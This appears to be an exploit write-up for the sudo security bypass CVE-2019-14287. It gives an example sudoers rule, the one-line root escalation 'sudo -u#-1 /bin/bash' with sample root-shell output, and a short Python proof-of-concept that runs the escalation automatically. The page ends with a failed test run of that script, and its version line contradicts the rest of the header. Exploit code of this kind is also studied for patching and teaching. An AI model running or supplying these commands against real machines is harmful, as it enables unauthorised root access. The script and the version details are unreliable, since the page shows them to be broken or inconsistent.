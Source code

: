 ```
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam
# Version : Sudo <1.2.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287
```
----------------------------------------------------------------------------------------

- Check for the user sudo permissions
```bash
sudo -l 
```
- User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


- So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
```
root    ALL=(ALL:ALL) ALL
hacker ALL=(ALL,!root) /bin/bash
```
--------------------------------------------------------------------------------

- With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 
```bash
sudo -u#-1 /bin/bash
```
Example : 
```bash
hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#
```
- Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
`-u#-1` returns as `0` which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

--------------------------------------------------------------------------------------

How to use :
python3 sudo_exploit.py

```python
#!/usr/bin/python3

import os

#Get current username

username = input("Enter current username :")


#check which binary the user can run with sudo

os.system("sudo -l > priv")


os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit

print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```
----------------------------------------------------------------------------------------------------
- Testing,  it is not working
```bash
$ python3 sudo.py
```
```
Enter current username :kurec
```
sh: 1: cannot create priv: Permission denied
sh: 1: cannot create binary: Permission denied
Lets hope it works
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...

